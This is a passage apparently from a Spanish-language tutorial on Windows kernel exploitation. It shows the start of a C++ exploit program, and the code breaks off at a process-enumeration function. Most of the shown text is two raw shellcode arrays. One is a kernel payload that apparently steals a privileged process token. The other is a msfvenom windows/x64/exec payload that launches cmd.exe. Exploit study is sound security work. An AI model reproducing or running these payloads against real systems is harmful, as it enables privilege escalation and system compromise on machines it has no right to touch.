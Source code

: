 Then we paste it into ``HxD`` to extract the shellcode and load it into our program:

```cpp
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <ktmw32.h>

#pragma comment(lib,"KtmW32.lib")

// buffer que vamos a asignar para que el kernel lo ejecute
char KernelShellcode[] = {
	0x90, 0x65, 0x4C, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 
	0x4D, 0x8B, 0x80, 0x20, 0x02, 0x00, 0x00, 0x4D, 0x89, 0xC2, 
	0x4D, 0x8B, 0x88, 0x40, 0x05, 0x00, 0x00, 0x4D, 0x8B, 0x92, 
	0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xEA, 0x48, 0x04, 0x00, 
	0x00, 0x49, 0x83, 0xBA, 0x40, 0x04, 0x00, 0x00, 0x04, 0x75, 
	0xE8, 0x4D, 0x8B, 0x92, 0xB8, 0x04, 0x00, 0x00, 0x49, 0x83, 
	0xE2, 0xF0, 0x4D, 0x8B, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 
	0x81, 0xE8, 0x48, 0x04, 0x00, 0x00, 0x4D, 0x39, 0x88, 0x40, 
	0x04, 0x00, 0x00, 0x75, 0xE9, 0x4D, 0x8B, 0x80, 0xB8, 0x04, 
	0x00, 0x00, 0x49, 0x83, 0xE0, 0xF0, 0x4D, 0x8B, 0x4A, 0x40, 
	0x4D, 0x89, 0x48, 0x40, 0x4D, 0x8B, 0x4A, 0x48, 0x4D, 0x89, 
	0x48, 0x48, 0x4D, 0x8B, 0x4A, 0x50, 0x4D, 0x89, 0x48, 0x50, 
	0xC3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};


// 280 bytes
// EXITFUNC=thread
// msfvenom -p windows/x64/exec CMD=cmd.exe -f raw EXITFUNC=thread
unsigned char pPayload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00,
	0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2,
	0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48,
	0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7,
	0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C,
	0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52,
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
	0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01,
	0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 0x40, 0x20, 0x49,
	0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34,
	0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0,
	0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1,
	0x75, 0xD8, 0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0,
	0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
	0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41,
	0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0,
	0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF,
	0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00,
	0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xE0,
	0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80,
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A,
	0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x6D, 0x64,
	0x2E, 0x65, 0x78, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};

bool ProcessEnum(const wchar_t* wcProcess, DWORD* ProcId) {

```